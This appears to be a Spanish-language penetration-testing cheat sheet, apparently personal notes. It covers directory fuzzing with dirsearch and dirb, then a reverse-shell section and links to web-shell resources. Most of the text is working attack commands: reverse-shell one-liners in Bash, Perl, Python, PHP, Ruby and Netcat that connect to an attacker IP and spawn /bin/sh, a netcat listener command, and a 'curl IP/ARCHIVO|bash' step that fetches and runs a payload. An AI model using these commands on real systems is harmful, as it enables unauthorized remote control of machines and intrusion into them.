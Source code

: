 dirsearch -u http://[IP]/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 150 -e php,txt,html -f

Si para acceder al sitio web salta un cuadro emergente pidiendo credenciales y las conocemos, para fuzzear esa parte a la que accedemos despues del login:
    dirb http://[IP]/ -u user:password


REVERSE SHELL
.............

https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/
https://deephacking.tech/reverse-shells-en-windows/

si no funciona....
    1.creamos un script .sh con bash -i >& /dev/tcp/IP/PUERTO 0>&1
    2.compartimos ese archivo mediante python -m....
    3.lo ejecutamos /usr/bin/curl IP/ARCHIVO|bash


Los siguientes ejemplos suponen que la IP del atacante es 8.8.8.8 y utiliza el puerto 8080 para la conexión.
Por lo tanto, en todos estos casos, debe escuchar el puerto 8080 con el siguiente comando:
nc -vv -l -p 8080

// Bash
bash -i >& /dev/tcp/8.8.8.8/8080 0>&1

// Perl
perl -e 'use Socket;$i="8.8.8.8";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

// Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.8.8.8",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

// PHP
php -r '$sock=fsockopen("8.8.8.8",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

// Ruby
ruby -rsocket -e'f=TCPSocket.open("8.8.8.8",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

// Netcat
nc -e /bin/sh 8.8.8.8 8080

// PowerShell
https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/


WEB SHELL
..........

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
https://book.hacktricks.xyz/shells/shells/msfvenom
https://github.com/frizb/MSF-Venom-Cheatsheet
    